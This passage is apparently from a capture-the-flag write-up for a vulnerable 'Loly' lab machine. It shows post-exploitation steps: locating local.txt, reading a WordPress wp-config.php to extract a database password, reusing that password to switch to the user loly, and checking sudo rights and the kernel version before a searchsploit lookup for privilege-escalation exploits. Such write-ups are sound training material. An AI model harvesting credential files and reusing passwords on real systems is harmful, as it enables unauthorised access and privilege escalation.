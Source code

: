```bash
www-data@ubuntu:/$ find / -name local.txt -type f 2>/dev/null
/var/www/local.txt
```

## Proof.txt

Since we are dealing with a WP site, we can start by reviewing its `wp-config` file.

{% code overflow="wrap" %}
```bash
www-data@ubuntu:~/html/wordpress$ cat wp-config.php

<SNIP>
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
<SNIP>
```
{% endcode %}

Using the password found (`lolyisabeautifulgirl`) we can switch user to `loly` and check if the account has any `sudo` permissions; unfortunately, this is not the case.

{% code overflow="wrap" %}
```bash
www-data@ubuntu:~/html/wordpress$ su loly
Password:
loly@ubuntu:/var/www/html/wordpress$ id
uid=1000(loly) gid=1000(loly) groups=1000(loly),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
loly@ubuntu:/var/www/html/wordpress$ sudo -l
[sudo] password for loly:
Sorry, user loly may not run sudo on ubuntu.
```
{% endcode %}

Enumerating the MySQL database as well as searching for `suid` files do not help us much; we can continue by checking the kernel's version.

{% code overflow="wrap" %}
```bash
loly@ubuntu:/var/www/html/wordpress$ uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
{% endcode %}

Searching for kernel exploits using (`searchsploit ubuntu 4.4.0`) comes back with some potential local privilege escalation scripts (Figure 3).


[^1]: Brute Force Attack
[^2]: Living of the Land
[^3]: Living of the Land
[^4]: Living of the Land
